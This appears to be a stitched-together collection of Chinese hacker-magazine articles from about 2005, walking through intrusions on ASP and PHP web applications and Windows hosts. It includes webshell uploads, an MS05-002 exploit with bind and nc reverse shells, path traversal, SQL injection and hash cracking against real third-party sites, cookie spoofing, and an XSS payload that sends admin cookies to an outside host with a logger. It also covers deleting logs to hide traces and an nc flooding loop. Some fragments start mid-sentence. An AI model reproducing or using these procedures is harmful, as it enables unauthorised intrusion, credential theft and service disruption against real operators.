好，到这里老兵把漏洞指出来了，下面我们找一份飞龙文章系统来，对应着这个漏洞先了解漏洞。找到 `admin_upfile.asp` 文件，然后找到如下这一段代码：……懂 ASP 代码的朋友应该很快就明白了，在上传之前，这个文件会先读取 cookie，看是否有“ArtID”这个文件名的依据。

```asp
dim FilePath,ObjectUpload,iCount,FormPath,FileEx,ArtID,FileName
if request.Cookies("ArtID")=0 then
  conn.execute("insert into article(subject,content) values('news','news')")
  set rs=conn.execute("select Top 1 ArtID from Article Order by Addtime desc")
  ArtID=int(rs(0))
  rs.close()
  Set rs=nothing
  response.Cookies("ArtID")=ArtID
else
  ArtID=request.Cookies("ArtID")
end if
FileName=FormPath&ArtID&"_"&iCount+1&"."&FileExt
```

一直来到这一行：`FileName=FormPath&ArtID&"_"&iCount+1&"."&FileExt`，这句代码说明了文件名保存方式：是用路径+ArtID 的形式。到这里就可以很好理解了。下面我们来看具体的操作。

准备工具：老兵上传工具一个，ASP 木马一个，Fpipe.exe，Serv-u，后门一份（我用 Radmin），还有浏览器一个……用搜索引擎搜索关键字“飞龙文章管理系统版权及免责声明”，搜索出来的文件是 `copyright.asp`，将它改成 `admin_upfile.asp`，如果出现图1所示的图片，说明这个网站有这个文件并存在漏洞。


打开老兵的上传工具，写入网站的上传地址，Cookie 一项后面加多一句：`ArtID=1111`，如图2。点完上传就是等啦，一会儿就好了。好了，WebShell 就拿到了，接着我们就要拿 Administrator 权限……


们走别的路。”他不给用，我用我自己的可以了吧！为了隐蔽，我把自己的 `cmd.exe` 放到了 `Documents and Settings\All Users\Documents` 这个目录里，当然你也可以放进别的可写目录里，例如 `C:\WINNT\system32\inetsrv\data` 这里。目录又深，又隐蔽又可写，不用不是浪费了微软的好意？我们再用海阳调用这个 cmd 来看看，如图4。


图4

继续，在 CMD 窗口下 `net start` 看到有 Serv-U 了吧？版本是多少一般我很少去注意，因为我为的是权限提升，所以升级就不需要看版本是不是能溢出？目标在哪呢？是不是可写这些。如果转向之后端口连接不上那么也许就是防火墙的缘故了，因为在现在所有版本的 Serv-u 中这个办法通杀。

我们用海阳执行命令 `fpipe -v -l 12345 -r 43958 127.0.0.1`，这句命令的意思是将本地的 43958 端口的数据转发到 12345 端口。让我们郁闷的是，cmd 执行这个命令竟然不能执行成功。不过我们还有一个武器（WSH），海阳2005已经为我们准备好这些了，直接使用即可……这样就够我用上个半年了。

这篇文章的东西都是很老的技术串联起来的，但是老东西不一定就过时。飞龙文章系统上传漏洞的一“盗”、动网漏洞，Serv-U 提升权限的二“盗”本地溢出，加之学习方法的三“盗”前辈经验，都不得不说，不光学 Hack，咱“盗”也要“盗”得同样精彩！

> （文中的工具：写文件 ASP 木马、上传工具、Fpipe.exe 已收录到本期光盘中）


amberski

2005年1月11日，微软发布了一个编号为 MS05-002 的严重级安全漏洞公告，称其部分 Windows 系统在光标和图标的处理过程中，由于没有进行足够的格式验证，所以可能允许远程执行代码。攻击者可以通过在网页和电子邮件中构造恶意的光标、图标来利用此漏洞。成功利用此漏洞的攻击者可以完全控制受影响的系统。微软相应的补丁编号为 KB891711。

- Microsoft Windows NT Server 4.0 Service Pack 6a
- Microsoft Windows NT Server 4.0 Terminal Server Edition Service Pack 6
- Microsoft Windows 2000 Service Pack 3 和 Microsoft Windows 2000 Service Pack 4
- Microsoft Windows XP Service Pack 1
- Microsoft Windows XP 64-Bit Edition Service Pack 1
- Microsoft Windows XP 64-Bit Edition Version 2003
- Microsoft Windows Server 2003
- Microsoft Windows Server 2003 64-Bit Edition
- Microsoft Windows 98、Microsoft Windows 98 Second Edition（SE）和 Microsoft Windows Millennium Edition（ME）

## 二、漏洞利用体验

## 一、正向溢出连接

先看下溢出程序，具体分析和步骤下面说道，我这里用的是孤独歌写的代码，调试好了后运行如图1所示。看下参数。

```text
E:\ms05-002 1>ms05002
Usage:
ms05002 <file> <bindport>
```

`ms05002` 是我们编译好的利用程序，`file` 是我们要生成的文件的名字，`bindport` 是我们要选择溢出的端口。好了，我们来测试是否可以，先按照格式生成文件，`MS05002 zhengxiang 888` 的意思就是生成的文件名是 zhengxiang，溢出的端口是随便写的，这里我们用 888 号端口。如图2，看到两个 OK 就说明生成好了。


图1


图2

去 `MS05002` 所在目录下看看，果然生成了，如图3。


图3

因为是测试，我就用自己的机子来试了。用 IE 打开图3中的那个 `zhengxiang.html`，弹出错误的提示，见图4。点确定后就是被溢出了，我们用 `NETSTAT -AN` 来看看端口 888 开了没？如图5。


我们来连上去看看，因为我是用自己的机子测试的，那就用 `TELNET 127.0.0.1 888` 吧！如图6，得到 SHELL，很简单就得到了 SHELL，看看权限如何？加个用户试下吧！


这组命令就是加个管理员再删掉，如图7，全部成功，是什么权限就不要我说了吧！


到这里，正向溢出连接就差不多了，至于怎么样让别人中招，就看自己的本领了，我不赘述了。

## （三）反弹溢出连接

还是去找利用代码，我们菜啊，自己不会写就只能到处找别人发布的代码，去找了半天找到了一个反向连接的代码，自己调试了都没有成功。技术封闭调到无敌了，他说自己调试了一个反向连接的代码，要求试下，果然好用，这里就用无敌最寂寞的代码了，谢谢无敌提供，如图8。

```text
Usage:
ms05002 <file> <connect back ip> <connect back port>
```

这个最重要，其中 `MS05002` 和前面正向的溢出代码不一样，这是由无敌编写的反向连接代码调试的利用工具。`file` 是我们指定的文件名字，`connect back ip` 是对方溢出后反弹到哪里去的那个 IP，`connect back port` 是监听的端口。知道了怎么用就好，我们照着来实验。

还是用本地机子吧，我用 `IPCONFIG` 来看看我们 IP 地址，如图9。


好了，有了 IP 后我们来运行程序 `MS05002 fangxiang 218.xxx.xxx.2 10000`，看到两个 OK 就说明都生成好了。生成好我们需要的文件后，接下来，我们用 NC 去监听，我在自己的机子上演示的，所以用 NC 监听我机子的 10000 端口：`nc -vv -l -p 10000`，如图10。然后用 IE 去看我们生成的文件，跳出一个错误的对话框，点确定后回到 NC 监听的 CMD 下看，如图11。可以看到成功得到一个 CMD 下的 SHELL，看看权限吧！还去加个用户试试吧？如图12。看看大家就都明白是什么权限了！


# 一个人的战争

## 三、防范措施

所列各项均为时下的主流系统，因此该漏洞的意义可想而知。根据微软的说法，以下条件有助于降低该漏洞通过电子邮件媒介的攻击威胁。

- 1. 应用 Microsoft 安全公告 MS03-040 或更高版本的 Internet Explorer 累积安全更新中包含的更新。  
- 2. 使用 Internet Explorer 6 或更高版本。  
- 3. 在其默认配置中使用 Microsoft Outlook 电子邮件安全更新，使用 Microsoft Outlook Express 6 或更高版本，或者使用 Microsoft Outlook 2000 Service Pack 2 或更高版本。  

## 四、小结

本文简单介绍了一下目前网络上的两个 exp 的使用情况。大家看到图 4 了吗？弹出的是英文提示，我们的都是中文系统，可是居然弹出英文，精明的人会看出破绽，所以我们最好能改一下生成的网页和 exp 里的提示，以免引起目标的怀疑（时间原因，没有改，大家自己动手吧，锻炼下）。实验过程中我自己测试的是 XP SP1 的系统并写的这篇文章，我朋友华夏的黑猫帮忙测试了 2003 的系统，朋友风之飘舞和浪迹天涯分别帮我测试了 98 和 2000 SP3、SP4 的系统，都可以成功，在这里感谢以上几位朋友。

（本文所涉及到的两个溢出程序本期光盘已收录）


bo-blog 是一款外观好看，而且当前流行的个人博客系统，在很多下载站点你都可以找到这套程序，而且甚至有很多安全界的人都使用着这套 php+txt 的程序，但是这套程序里有些安全隐患，可能会被人利用去做一些破坏。

首先开门见山，我们说说它的绝对路径暴露问题。只要提交地址：`http://localhost/blog/index.php?m=2&y=2005`，就可以得到程序所在绝对路径（如图 1），这是 bl.php 中经常出现的问题。


现在我们再来看一段代码，这是 showcat.php 里的内容。

```php
if (!file_exists("$dirblog/$cat.php")) {
    wronginfo($langerrornocat);
}
unset($allfiles);
$allfiles=@file("$dirblog/$cat.php");
```

看到了没有？直接把没有处理过的 cat.php 就拿出来用了，而它又是怎么处理拿出来的数据的呢？见下面的代码：

```php
for ($i=$start; $i<$end; $i++) {
    $latest=explode("|",$allfiles[$i]);
    $articleid=$latest[1];
    $articlename=$latest[2];
    $latest[3]=mktimezone($latest[3]);
    $showtime=date("Y-m-j",$latest[3]);
}
```

这样，它将 `$cat` 提交来的文件打开，读出来，但是以“|”为分隔读出文件内容。因为以“|”读出文件内容却是从 1 开始的，所以我们读不出其他的文件，我们只能读文件里有“|”的文件的第一个“|”后面的数据。也就是说，假设我们知道用户所在目录的话，我们就可以提交 `http://localhost/blog/index.php?job=showcat&cat=../saiy/userid`（如图 2），便可以得到管理员的密码散列。


然后伪造 cookies 登录，直接可以传后门了。但前提是要知道目录名，所以这个方法的关键在于目录名。不过假设对方站点上有其他的 php+文本的程序，我们可以利用此文件读出隐秘内容。我们再来说第二个问题：回复评论未限制时间。大家大概觉得这不算什么问题吧，看完代码不知道你还会这么想吗？大家看下面的代码：

```php
$replyauthor=safe_convert($replyauthor);
$remreplyauthor=$replyauthor;
if ($replyemail=="") $replyauthor="匿名";
safe_convert($replyemail);
$replycontent=safe_convert($replycontent);
$simplecontent=preg_replace('/\[(.+?)\]/is','',$replycontent);
$simplecontent=preg_replace('/<(.+?)>/is','',$simplecontent);
$simplecontent=preg_replace('/&(.+?);/is','',$simplecontent);
$curexcerpt=msubstr($simplecontent,0,20);
$timestamp=time();
$areply=@readfromfile("$dirblog/$articleid.rpl");
writetofile("$dirblog/$articleid.rpl",$replycontent."\n[rep]\n".$areply);
writetofile("$dirblog/list.php",$all);
updateenum(1);
```

看到没有？居然也没对 `$articleid` 做过滤，大家觉得吓人吗？我改改你再看看。

```php
writetofile("$dirblog/C:\\winnt\\system32\\hacker.rpl",$replycontent."\n[rep]\n".$areply);
```

这样我们把一个垃圾文件写到系统目录下了。要么，写到管理员启动目录？一个 N 大无比的文本文件。只要我们不停地提交数据，则不断地把文件写入了。假设你手头没有工具可以帮你提交，我教你个简单的，利用 NC 的方法。首先，抓取你发表评论的帖子，存在 NC 所在目录下，命名为 test.txt。再建立一个 bat 文件，为 test.bat，内容为：

```bat
nc www.test.com 80 < test.txt
cls
test.bat
```

呵呵，运行这个 bat 文件它就会不停地发送评论了，开两个就是两个线程哦。

# 菜鸟入侵最新站点

风舞天涯

朋友给我一个网址，说是某创业网站，叫我测试一下安全性的问题。由于本人比较笨，网站用的文章管理系统我不知道叫什么名字，论坛用的是 BBSXP 5.00 SP1 版本。既然要入侵我们就要全面了解。

我先对目标机器进行了详细的端口扫描，这里我是用 SSPORT 扫的。如图 1，开了五个端口，4899 我不用说了吧！还有空口令、爆破时间太长；邮件服务器软件是 WebEasyMail [3.5.2.1]（8585 端口）；在我进入系统之后知道是一款远程管理软件用的端口；WEB 服务器是 IIS5.0。放弃从系统本身入侵。下面我就给大家说说我是如何进入的，希望对菜鸟能有所帮助。


图 1

首先我用了最流行的脚本注入看看有没有漏洞。

```text
http://www.*****.com/page3.asp?g_id=29423 and 1=1
http://www.*****.com/page3.asp?g_id=29423 and 1=2
```

分别显示正常与不正常的页面，说明存在注入漏洞。没想到网站会有这样低级的错误。接着我就用 NBSI 跑，结果并不理想，只爆出两个表名，没有有用的信息。最后决定放弃注入这条路。

现在还有论坛可以试试，BBSXP 5.00 SP1 只闻其名。到网上找找吧。我在 GOOGLE 里搜索“BBSXP 5.00 SP1”，找到相关漏洞资料与工具，如图 2，现在就看管理员颤抖不颤抖了。


图 2

下载现成的工具，BBSXP 5.0 SP1 管理员猜解器（修正版），轻松获得管理员与密码，不过密码经过 32 位加密的，如图 3。


图 3

现在距离成功已经很近了。得到密码后可以两种方法利用：一种是爆破 MD5（弱口令时可行）；另一种是利用 COOKIE 欺骗进行入侵。这里作者选择双管齐下。

这里我用 MD5Crack2 进行破解，按默认配置很快破解出来，果然是弱口令：admin。前台 COOKIE 欺骗我用的是 MyBrowser。先在论坛注册用户，用 COOKIE 浏览器登录，得到如下数据：

```text
LOGINOPTIONS=hidden;
LASTUI=full;
LASTLANG=zh;
skins=1;
ASPSESSIONID...;
userpass=698D51A19D8A...
username=111;
onlinetime=2005-...;
admin=0
```

我们只要把 userpass 和 username 更改一下就可以了，我这里修改为：

```text
userpass=AFE659B0********...D40591C781
username=admin
```

然后点击连接，现在我们就变成管理员身份了，如图 4。


图 4

现在是管理员了，我们要上传木马，但这里不准上传 asp 格式文件。可先上传图片，再利用后台数据库备份功能改回来，获得 WEBSHELL。

把木马后缀改成 jpg，上传后路径如 `/images/urface/1.gif`。进入后台“备份数据库”，在数据库路径填入木马路径，在备份后的数据库路径处输入要运行的名称（木马名），如图 5。


图 5

备份成功后即可运行木马。随后作者描述了下载论坛数据库、删除日志记录（如 LOG 表）以清除操作痕迹，并尝试进一步提权（如通过 serv-u），但提权未成功。

一个帐户是 guest 用户，并没有多大的权限。并没有发现其它可以利用的方法，脑袋胀胀的，就退了出来。下面的发展就有点戏剧性了，晚上闲着没事，我又上他们的网站，既然获得 webshell，就进他们的文章管理系统看看吧。我下载了他们的数据库，知道他们有两个管理员，密码是明文显示的。我突然联想到，能不能论坛的密码也是这个呢？

我试了一下，没想到让我蒙对了。大家还记得吧，之前我曾爆破论坛后台密码为 admin，前台用的是 cookie 欺骗，现在我知道他们前台密码了。也就是文章管理系统与论坛密码是一样的。那如果这台机器的 administrator 的密码也是这个密码那多好啊。希望我能走好运。

在开头我曾跟大家说过，他除了用 radmin 远程管理外，还有一款远程控制软件，那就是 RemotelyAnywhere，这是一款基于浏览器就可以控制的。我在扫描端口时曾有一个 8585 端口，即是连它用的。

我在 IE 里输入 `http://www.*****.com:8585`，结果出来了，如图 6。


其中大家仔细看一下图，其中 http 变为 https，基于 ssl 的。在用户名输入 administrator，密码输入文章管理系统的密码，我不知道老天这么照顾我，当进去的时候，我当时愣了几秒钟，没想到这么轻易就进来了，看来管理员的安全意识也太薄弱了。

这里给大家抓了一张图，如图 7。其中远程控制可以像 3389 一样控制对方的机器，只是速度有点慢，图像也非常不错，功能非常强大。到这里，我已经完整地侵入该站的电脑，听说他们还提供空间、提供域名、还有邮箱，呵呵，这下可有好玩的了。

这里只是提供给像我一样的菜鸟，希望他们早日高飞，不要死盯住一个方面，全面勘探，收集信息。在这里也给广大管理员提个醒，不要只顾打机器的补丁，这台肉鸡上至少打了十几个补丁，要同时关注脚本与论坛方面的漏洞，要全面查找，更不要把密码通用，这是他最大的漏洞，而且也是管理员自己造成的。


（本文所涉及的软件：SSPORT、NBSI、BBSXP 5.0 SP1 管理员清除器[修正版]、MD5Crack2、桂林老兵的 MyBrowser，本期光盘已收录）

前几天有个朋友给了我一个网址让我看看，现在学累了就当是换换脑子吧。打开一看，是个发行量挺大的杂志的网站，名字我就不说了，省得被人家找上门来唠叨了。网站是用 ASP 架设的，在上面大致逛了逛，发现主要是个会员制的购书程序，另外还有“最新公告”“业界新闻”什么的。

购书程序没有版权信息，我在网上也没找到，估计是自己搞的。没办法，先到“最新公告”看看吧，点开一个什么“2005 第一弹”（好名字啊），看下地址栏，莫名兴奋，正是我辈中人最向往的“xxx.asp?id=123”型，在后面加个“and (select @@version)>0”（如图 1），唉~~又是这种弱智漏洞。


抄起家伙，顺便说一句，别以用工具为耻，高手也是这么过来的，关键是懂得原理，毕竟我们不是超人。先用 SQLINJ 简单配置扫描出了网站的管理后台，现在缺的就是用户名和密码了，架起 NBSI 跑一遍，找到了一个名为 admin 的表，如图 2。


应该说就是它了，可是密码竟然是 MD5 加密的！本来以为很容易就可以进入了，但没想到却被 MD5 挡住了去路。先用 md5crack v2.2 挨个破解，用 GETWEBSHELL 上传木马，然后在主机里乱翻，结果没找到什么有用的信息，“执行命令”也不能用，撇开 NBSI 直接在浏览器用 xp_cmdshell 提交，不行！

```sql
DECLARE @shell INT;
EXEC sp_oacreate 'wscript.shell', @shell OUTPUT;
EXEC sp_oamethod @shell, 'run', NULL, 'cmd.exe /c dir c:\ > c:\icoo.txt';
```

再用 NBSI 查看目录功能看看 C 盘，结果依旧不行。已经半个小时过去了，再看 md5crack v2.2 也没有什么进展。我猛然想到：会不会上传木马其实根本没传上去？先看看 GETWEBSHELL 的上传原理吧。

# 一个人的战争

GETWEBSHELL 利用 SQL 注入漏洞在数据库中新建一个表，然后把表中的内容一行一行写入表中，最后将此表导出到指定位置，以此来实现木马上传。

有人说你说这有啥用啊？别急，下面就到关键的地方了。再看看 NBSI 查看目录的原理吧。NBSI 查看目录时，先在数据库中新建一个名为 nb_dirtreelist 的表，然后用库操作将要查看的目录导入到表中，读取此表即可。

看到有什么区别了吗？对了，NBSI 不需要导出，而 GETWEBSHELL 需要从数据库导出。能查看目录，说明对数据库的操作是可行的，问题出在导出这一步上。既然明白了问题所在，就好办了。他不让导出，我们就不导出；他的密码不好破，我们就来个偷梁换柱，将密码改成我们自己的。

```sql
UPDATE tb_name SET col_name=expr
WHERE where_definition;
```

其中，`UPDATE` 用于更新对象所在表中的行，`SET` 子句指出哪个列要修改和应该被给定的值，`WHERE` 子句如果给出，指定哪个行应该被更新，否则所有行被更新。下面看具体实现步骤。

先用 MD5 密码转换器将自己的密码转换为 32 位 MD5 码，如图 3。查看原管理员密码，如图 4。将此密码记下，以备最后还原。


输入 `update admin set password=140d3ea2b0c7a720b8fcc236deedd04f where id=5;--`，页面正常返回，看来是执行成功了，再用 NBSI 看一下，确认密码修改成功。在管理员登录，添加管理员，如图 5。


最后再执行 `update admin set password=ec98a28312d92cf0ba34393f67edf658 where id=5;--` 将密码还原。

**后记：** 从这次检测过程来看，思路永远都是最重要的，所以我希望展示给大家的不仅仅是一个过程，而是一种分析问题、解决问题的思路；比如上例中除了用 update 命令，还可以用 insert 命令直接插入，这些具体的东西都要大家自己揣摩，欢迎各位批评指正，谢谢。

> （本文所涉及的软件：SQLINJ、NBSI、md5crack v2.2，本站光盘已收录）

## Asp杀手锏小技巧

泡苹果

暴库是入侵 ASP 程序的一种常用方法，十分简单。常用的暴库方法是直接访问问题程序的 `conn.asp`，并在形如 `http://www.xxx.com/xx/xx.asp?id=xx` 的 URL 中把 `/` 换成 `%5c`，如果是一级目录就换成 `..%5c`。一般就可以在浏览器中暴出数据库的物理路径。

可是有一次入侵中我用以上两种方法都没能暴出数据库地址，访问 `conn.asp` 是空的，用 `%5c` 暴出的不是数据库。于是我就试着访问了 `http://www.xxx.com/xx%5cconn.asp`，结果还真让我暴出了数据库地址。


于是我发现如果访问 `conn.asp` 不能暴库，且显示不是空的话，可以把最后的 `/` 改成 `%5c` 试试。同样地，如果 `conn.asp` 在二级目录，要在 `%5c` 前加上 `..` 变成 `..%5c`。以上方法虽不能 100% 成功，但我试很多站都可以顺利暴出数据库的物理路径。

# 一个人的战争

# 一、前言

最先发现这个漏洞是在 For LeadBBS 版中的，后来发现 For Dvbbs 版的也存在漏洞。因为 LeadBBS 的用户密码是 32 位的 MD5 密文，比较难破解，而 Dvbbs 的只有 16 位，所以本文将以 Dvbbs 为例来阐述漏洞的发现和利用过程。

> **注意：**官方后续版本声称未发布 for Dvbbs 7.0 sp2 版，且官方论坛似乎并不存在此漏洞。


## 二、过程

先介绍厨房做菜的大致过程：先选择好菜谱，然后按菜谱提示分别选择好配料、火候和时间，再点击开始，如图1。


从 plsel=1 开始，后面是提交参数。在 For LeadBBS 版中会出现 price1 和 price2 两个参数，分别对应两种配料价钱；For Dvbbs 版中关键参数是 needtime，对应做菜时间。

```vb
useckrs("selecttime")=iif(request("needtime")="",5,request("needtime"))
```

仅判断 needtime 是否为空，因此可尝试提交 needtime=0。但源码中还有一步校验：

```vb
if cint(useckrs("selecttime"))<>cint(menurs("needtime")) or useckrs("selectfire")<>menurs("needfire") then
    useckrs("dishid")=0
    useckrs("dish")="奇怪的小菜"
end if
```

等时间到了菜就做好了，接着可选择吃掉、卖掉或者送人等（图2）。如果不按菜谱提示做，会做出“奇怪的小菜”，吃掉还会减经验。接下来抓包看提交数据。


```http
POST /yzl/dvbbs/cook_index.asp?action=cookStart HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, */*
Referer: http://zhaoad.com/yzl/dvbbs/cook_index.asp
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Cookie: ...
plsel=1...&pi2sel=...&needtime=...
```

吃掉会减经验，卖掉可得2块钱，还是拿去送给 MM 吧（图3）。若输入不存在的用户名会出现图4的对话框，这提示可能触发了数据库查询逻辑。


```vb
if request("action")="sending" then
    set rs=server.createobject("adodb.recordset")
    sql="select * from dv_user where username='"&request("username")&"'"
    rs.open sql,conn,1,1
    if rs.recordcount<1 then
        msgbox "无此用户："&request("username")&"，请检查！",0,"梦想"
    end if
end if
```

看到了吧！对 username 没有做任何过滤，接下来我们就来玩经典的“猜数字”游戏了。先来猜管理员，在“送给：”后面填入 `StarsunYzL' and userclass='管理员`，单引号不能少，不包括逗号，然后点“确定”……接着猜密码前1位、前2位……如果条件成立会得到 MD5 密码。

的话就去破解 MD5 密码吧！为了方便大家提交参数 needtime=0，我写了个小程序，如图5。先在“论坛地址”填入 Dvbbs 地址，点“浏览”，登录论坛后把“雪石厨房地址”粘贴进去，再点“做菜”即可。

## 三、写在最后

因为我不懂 ASP，对数据库也不熟，所以只能将这个漏洞利用到这里了。大侠们有什么高见还请不吝赐教！


图5

雪石厨房 For Dvbbs 7.0 sp2，以及作者所写的工具，光盘有收录。


# HaK_BaN[B.C.T].

首先说说什么是 blog（博客）？因为很多人都不知道 blog 是什么……

## 释义

网络出版（Web Publishing）、发表和张贴（Post）……Blog 内容可包含链接、评论、新闻、日记、照片、诗歌、散文等。写 weblog 或 blog 的人称为 blogger 或 blog writer……

- 1. L-BLOG（Loveyuki 编写的 ASP+ACCESS 架构）
- 2. O-BLOG（ASP+ACCESS/SQL 架构多用户）
- 3. Mislong（多用户版本）
- 4. theanswer’s blog（国外开源项目）
- 5. SIC’s blog（L-BLOG 修改版）
- 6. D!ong（猪飞飞编写）

我就拿 L-BLOG 程序来进行分析！看看我们的 L-BLOG 有多少问题？

### L-BLOG 程序漏洞（跨站式脚本漏洞）

使用越广泛的程序就会有更多漏洞。L-BLOG 也一样，在 Member.asp / favorite.asp / bloglinks.asp 页面里作者没有过滤敏感字符，可能导致 COOKIE 窃取与破坏。

以 Member.asp 的“个人主页”栏目为例，输入恶意脚本如 `<script>alert('TEST.BY.H4K_B4N')</script>`，管理员或其他用户查看时会执行代码。


图1

危害性最大的是 bloglinks.asp 添加链接页面，只要输入恶意代码并等待管理员审核，即可在管理后台触发代码并获取 COOKIE。

```html
<script>
document.location='http://yoursite.com/cookie.asp?%2Bdocument.cookie'
</script>
```

COOKIE 页面代码：

```asp
<%
Testfile=Server.mappath("info.txt")
Msg=request.servervariables("QUERY_STRING")
Set fs=server.createobject("scripting.filesystemobject")
Set thisfile=fs.opentextfile(testfile,8,true,0)
Thisfile.writeline(""&msg&"")
Thisfile.close
Set fs=nothing
%>
```

利用以上的代码，我们就可以很轻松地拿到管理员的 COOKIE 资料，进行进一步的入侵了。之前我们说了关于跨站式脚本漏洞的实现，如果我们拿到了 COOKIE，可以去跑密码，因为 COOKIE 保留了管理员的密码，这样子就可以拿到前台以及后台的管理员权限了（如果你的主机或者内机超级强的话，我建议你去跑）。如果密码没跑出来怎么办？我们可以试试利用 COOKIE 欺骗来得到前台管理权限和 webshell（只针对 1.08(SE) 以下没有打补丁的版本/修改版本）。

首先就是利用老兵的 Cookies&Inject Browser 去访问网站，这样子我们就可以拿到 L-BLOG 程序的用户 Cookie 了，从而我们可以借用修改得到前台的管理员权限。利用快速注册，我们很快就拿到了用户 COOKIE，然后我们需要把 L-BLOG 的 COOKIE 资料进行修改，从而进行 COOKIE 欺骗。

COOKIE 如下（以下的 COOKIE 进行过删减）：

```text
guoming_(cookie保存的名称)=memLastpost=...&memPassword=...&memStatus=Member&memName=h4k%5Fb4n
```

而我们需要修改的参数就是关于我们权限的部分，首先我们把 memStatus=Member 修改为 SupAdmin。但是为什么要修改为这个？经过查看 L-BLOG 的数据库我们可以看到管理员的 memStatus 是 SupAdmin。所以为了得到管理员的权限我们必须把 Member 修改为 SupAdmin，这样子我们就可以得到前台管理权限。保存好我们修改的 COOKIE 后，刷新网页我们就可以看到结果。

而漏洞的起因我们可以看看 common.asp 的代码，代码如下：

```asp
Dim memName,memPassword,memStatus
memName=CheckStr(Request.Cookies(CookieName)("memName"))
memPassword=CheckStr(Request.Cookies(CookieName)("memPassword"))
memStatus=CheckStr(Request.Cookies(CookieName)("memStatus"))
```

看 memStatus 是从 Cookies 里读出来的。L-BLOG 登录的时候，普通用户给 Request.Cookies(CookieName)("memStatus") 赋了 Member，超级管理员给 Request.Cookies(CookieName)("memStatus") 赋了 SupAdmin，而前台的权限判断是根据 memStatus 的值。

Cookies(CookieName)("memStatus") 赋了 SupAdmin，而前台的权限判断是根据 memStatus 的值，而 memStatus 的值，是从 Request.Cookies(CookieName)("memStatus") 里读出来的，所以我们将 memStatus=Member 改成 memStatus=SupAdmin，这样就获得了 L-BLOG 的前台管理员权限了。

如果我们拿到了管理权限之后，我们为了要扩大控制，就必须要得到 BLOG 的 webshell。在发表日志功能模块我们可以找到上传的选项，从而就可以上传 webshell。首先我们必须拿到 L-BLOG 上传的封包信息，还有 COOKIE，这样子就可以进行提交了！封包信息如下：

```http
POST /attachment.asp?action=upload HTTP/1.1
Cookie: ASPSESSIONID...; guoming=...&memStatus=SupAdmin&memName=...
Content-Disposition: form-data; name="File1"; filename="...\1.jpg"
Content-Type: image/pjpeg
```

以上面的信息我们得到分析就是上传的页面是 attachment.asp?action=upload，文件字段为 name="File1"，所以在使用工具的时候注意这两点进行设置，要不然弄不上去就不要说我骗人啊！我们用老兵的上传工具进行示范，如图2。


图2

图3中我们可以看到 webshell 已经上传上去了。这样子 BLOG 的漏洞就基本上被我们榨干了，顺便要说的是 webshell 上去之后会出现乱码的情况，是因为 L-BLOG 采用 UTF-8 的编码。只要我们把 webshell 修改编码，就完全可以避免这个问题的发生了。


图3

## 漏洞的修复

COOKIE 的修复方法的原理就是将 admin 用户组手工删除，只给指定用户管理权限（指定用户指的是 blog 的管理员帐号）。

- 步骤一：在 default.asp 文件里找到 Sub MemberCenter（用户中心）页面，将 `IF memStatus="SupAdmin"` 改成 `memName=...`（按指定用户进行权限判断）。

```asp
<%if memStatus="Admin" Then
Response.Write("<a href=\"blogpost.asp\">&S Post New</a><br>")
%>
...
<%if memStatus="SupAdmin" OR memStatus="Admin" Then%>
...
<%if memName=指定用户 Then %>
...
```

# 注意

如果是“<>”关系的话，多用户用 and 连接；如果是“=”关系的话，多用户用 or 连接。这样子 BLOG 程序的 COOKIE 漏洞就已经可以避免了，而上传以及跨站式脚本攻击的漏洞官方网站已经提供了补丁下载，我在这里就不再一一解释了。

# 关于其他 BLOG 程序的漏洞

因为篇幅的问题，本来还想把其他的 BLOG 程序的漏洞详细地告诉大家的，现在只好说说大概吧。剩下的 BLOG 有部分存在着暴库以及上传过滤不严等等的漏洞，希望正在使用这些 blog 程序的用户到这些程序的官方网站下载最新的补丁，避免 BLOG 受到攻击。

文章到此就已经完全结束了。这篇文章不是为了让大家知道如何去攻击 L-BLOG，而是希望大家在看的过程当中，要知道每个程序可能会存在着什么漏洞、什么起因，从而进行修复或者引起注意。在使用程序的过程中，不但要懂得如何去利用，也要懂得在利用的前提下去发现漏洞，去发现问题的所在。

我想大概意思你一定明白了，就是将 memStatus="SupAdmin" 或者 memStatus="Admin" 用 `memName=指定用户` 就可以了，如果有多人用的话，就改成 `memName=指定用户 or memName=指定用户1 or memName=指定用户2`。


要放暑假了，很想回母校看看，不知道老师们还好么？也不知道学校变成什么样子了。上次打电话听老爸说，我们初中新聘了位老师，网络方面很厉害，还给学校做了站点，看来我们初中也有了很大的变化呀！记得我上学的时候网络还不是很普及，现在都有自己的网站了，发展迅速不小。

在百度上搜索“**五中**”还真找到了我的母校，很兴奋地打开了学校的主页，网站做得的确不错，界面很华丽，尤其是 LOGO 做得很有个性。

出于好奇就想测试一下它的安全程度，不知道华丽的外表下是不是也同样有着坚固的网站结构。首先我们就来看看新闻系统，如图1。看上去很眼熟，就是忘了在哪见过了。先不管了，先看看可不可以注入，我比较懒，那么今天就找个工具来完成注入点的检测吧。


如图2，我们就用这个 Asp Site Scan 来扫描一下吧。在 WEB URL 框里写上要检测的链接就可以了（这里要注意如果要检测 `http://******/******/******/more.asp?typeid=10`，那么我们填 `http://******/******/******/` 就可以了，这样可以对 `http://******/******/******/` 下的每个页面进行检测，想一想如果要你手工检测每个页面，那要多辛苦呀？还是懒人好吧 ^_^）。


很快我们就看到结果了，如图3，我们看到有四个注入点。由于这个软件是功能限制版的，注入功能就不能用了。那么下一步我们就要开始注入猜解了，手工猜解？我可懒得猜了。记得在刚学猜解的时候，猜一个6位的表名、两个5位的字段名、一个8位的用户名和一个16位密码，用了我一个下午的时间，现在想起来还有点怕呢。那就这么放弃？当然不了，就算我愿意放弃，你肯答应么？好了，闲话少说，接下来我们就用爱哥哥的绝猜解吧。


如图4，进行选项设置，然后点“go”开始猜解，不一会就猜解好了，如图5。我们看到结果中显示“存在表名：users，猜出账号字段名：name，已经猜出帐号长度为：5；猜出密码字段名：pwl，已经猜出密码的长度为：7”。我们再看看“猜解管理入口”“猜解帐号”和“猜解密码的结果”，可以看到猜解结果：管理入口没有猜到，帐号是：admin，密码是：*******。有了帐号和密码，却不知道管理入口，你说郁闷不？


